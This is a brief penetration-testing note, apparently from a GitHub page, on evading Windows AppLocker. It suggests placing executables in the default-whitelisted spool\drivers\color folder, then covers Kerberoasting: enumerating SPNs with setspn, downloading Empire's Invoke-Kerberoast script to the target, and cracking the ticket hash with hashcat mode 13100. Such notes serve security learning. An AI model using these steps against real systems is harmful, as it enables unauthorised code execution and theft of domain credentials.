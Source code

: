 # App Locker

> Shahrukh Tramboo | March 14th, 2022

--------------------------------------


There are many ways to bypass AppLocker.

If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: 
```bash
C:\Windows\System32\spool\drivers\color
```
- This is whitelisted by default. 

**Kerberoasting**

If we run 
```bash
setspn -T medin -Q */*
```
we can extract all accounts in the SPN.

SPN is the Service Principal Name, and is the mapping between service and account.

Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

The script is at 

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

Then Download it to the target and after writing this code at the end of script
```bash
Invoke-Kerberoast -OutputFormat hashcat
```

Now crach the hash with John the ripper
or hashcat


Lets use hashcat to bruteforce this password. The type of hash we're cracking is 
```bash
Kerberos 5 TGS-REP etype 23 
```
and the hashcat code for this is 13100.




